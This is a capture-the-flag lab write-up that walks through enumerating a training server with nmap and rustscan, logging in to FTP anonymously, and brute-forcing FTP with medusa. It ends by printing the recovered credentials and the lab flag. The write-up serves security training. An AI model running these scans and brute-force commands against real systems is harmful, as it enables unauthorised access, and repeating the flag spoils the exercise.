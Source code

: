 # Attacking Common Services - Medium

This lab is an internal server that manages and stores emails and files and serves as a backup of some of the company's processes.

## Approach
First, I performed a Nmap scan on the running services on the target.
```bash
nmap -sV -sC 10.129.201.127
```
![Nmap](img/medium_nmap.png)<br>
From the results, the following services are running on the machine:
- SSH on port 22
- DNS on port 53
- POP3/s on port 110 and 995
- FTP on port 2121

All of these services does not seem to reveal anything crucial. So, I used `rustscan` to quickly scan for open ports.
```bash
rustscan -a 10.129.201.127 -r 1-65535
```
We see that there is another unusual open port, 30021.
```bash
nmap -sV -sC 10.129.201.127 -p 30021
```
![Nmap](img/medium_rusty.png)<br>
We see that it is another FTP server that allows anonymous login!
```bash
ftp -P 30021 10.129.201.127		## username "anonymous", password ""
```
Through some enumeration, I found `mynotes.txt`, which could potentially help us.<br>
![mynotes](img/medium_simonftp.png)<br>

`mynotes.txt` seems to contain possible credentials for a particular service and user.
![mynotes](img/medium_mynotes.png)

Since it was located under the "simon" directory, a possible username could be `simon`. Hence, I used `medusa` to brute force the FTP service on port 2121.
```bash
medusa -u simon -P mynotes.txt -h 10.129.201.127 -M ftp -n 2121 -f
```
With this, I found a valid set of credentials, `simon:8Ns8j1b!23hs4921smHzwn`.

Then, I logged onto the FTP service on port 2121 with the credentials and found the flag.
![flag](img/medium_flag.png)

The flag is `HTB{1qay2wsx3EDC4rfv_M3D1UM}`.